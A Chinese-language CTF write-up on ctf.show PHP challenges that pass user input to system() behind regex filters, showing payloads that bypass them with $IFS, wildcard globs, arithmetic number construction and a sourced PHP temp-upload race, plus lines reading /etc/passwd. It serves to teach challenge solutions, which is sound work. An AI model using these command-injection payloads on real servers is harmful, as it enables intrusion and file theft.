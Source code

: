 ## **不可字符分割绕过**
```
$c=$_GET['c'];
if(!preg_match("/\;|.*c.*a.*t.*|.*f.*l.*a.*g.*| |[0-9]|\*|.*m.*o.*r.*e.*|.*w.*g.*e.*t.*|.*l.*e.*s.*s.*|.*h.*e.*a.*d.*|.*s.*o.*r.*t.*|.*t.*a.*i.*l.*|.*s.*e.*d.*|.*c.*u.*t.*|.*t.*a.*c.*|.*a.*w.*k.*|.*s.*t.*r.*i.*n.*g.*s.*|.*o.*d.*|.*c.*u.*r.*l.*|.*n.*l.*|.*s.*c.*p.*|.*r.*m.*|\`|\%|\x09|\x26|\>|\</i", $c)){
        system($c);
```
若flag在当前目录的flag.php中
下面均可
```
?c=vi$IFS????????   //类似vi flag.php F12可以看到源码
?c=uniq$IFS????????
?c=uniq${IFS}????????
?c=/bin/c??$IFS????????    //在bin目录中读取c??  其实就是cat了
?c=grep${IFS}'{'${IFS}fl???php
（在 fl???php匹配到的文件中，查找含有{的文件，并打印出包含 { 的这一行）




cmd=/bin/cat%20/etc/passwd
cmd=/usr/bin/find%20/%20-name%20flag*
```

^
## **无字符绕过**
```
if(!preg_match("/\;|[a-z]|\`|\%|\x09|\x26|\>|\</i", $c)){
        system($c);
    } 
```
若flag在当前目录的flag.php中
/bin/base64 flag.php
```
?c=/???/????64 ????.???
```
/usr/bin/bzip2 flag.php
压缩后访问/flag.php.bz2下载获得flag
```
?c=/???/???/????2 ????.???
```


^
## **无数字创数字**
```
//已知flag in 36.php
if(isset($_GET['c'])){
    $c=$_GET['c'];
    if(!preg_match("/\;|[a-z]|[0-9]|\`|\|\#|\'|\"|\`|\%|\x09|\x26|\x0a|\>|\<|\.|\,|\?|\*|\-|\=|\[/i", $c)){
        system("cat ".$c.".php");
    }
}
```
我们要绕过正则变一个36出来
![](.topwrite/assets/image_1732956831826.png)
```
?c=$((~$(($((~$(())))$((~$(())))$((~$(())))$((~$(())))$((~$(())))$((~$(())))$((~$(())))$((~$(())))$((~$(())))$((~$(())))$((~$(())))$((~$(())))$((~$(())))$((~$(())))$((~$(())))$((~$(())))$((~$(())))$((~$(())))$((~$(())))$((~$(())))$((~$(())))$((~$(())))$((~$(())))$((~$(())))$((~$(())))$((~$(())))$((~$(())))$((~$(())))$((~$(())))$((~$(())))$((~$(())))$((~$(())))$((~$(())))$((~$(())))$((~$(())))$((~$(())))$((~$(()))) ))))
```


^
## **没有过滤.的php临时文件命令执行**
web56
```
// 你们在炫技吗？
if(isset($_GET['c'])){
    $c=$_GET['c'];
    if(!preg_match("/\;|[a-z]|[0-9]|\\$|\(|\{|\'|\"|\`|\%|\x09|\x26|\>|\</i", $c)){
        system($c);
    }
}
```
因为没有过滤'.'，而点命令在linux中是source的缩写，通过点命令，我们可以在没有执行权限的情况下执行sh命令。
原理是通过POST上传一个文件，文件内容是要执行的命令，并且同时点命令执行该文件，形成条件竞争。这个文件默认保存在/tmp/phpxxxx路径下，所以可以通过/???/????????[@-[]来来构成这个路径，[@-[]为匹配ascii码范围在@-[的字（A，Z被屏蔽，所以范围大一位），之所以用[@-[]是因为直接用/???/?????????匹配到的其他文件都是小写字母，只有php临时生成的文件才包含大写字母。就算这样，也不一定能够准确地匹配到我们的上传文件，所以可能要多次刷新。

使用postman或其他，POST上传临时文件，文件名任意
```
#!/bin/sh
ls
```
同时传参
```
?c=.%20/???/????????[@-[]
```
最终数据包如下：
```
POST /?c=.%20/???/????????[@-[] HTTP/1.1
Host: 13cf7637-c8fc-4c8e-901d-782b7a0c99fd.challenge.ctf.show
Accept-Encoding: gzip, deflate, br
User-Agent: PostmanRuntime/7.42.0
Content-Type: multipart/form-data; boundary=--------------------------974334232652972648027191
Accept: */*
Cache-Control: no-cache
Postman-Token: 12305bc1-76a8-4288-a75d-266bbc6679d3
Content-Length: 220

----------------------------974334232652972648027191
Content-Disposition: form-data; name="filename"; filename="1.txt"
Content-Type: text/plain

#!/bin/sh
cat flag.php
----------------------------974334232652972648027191--
```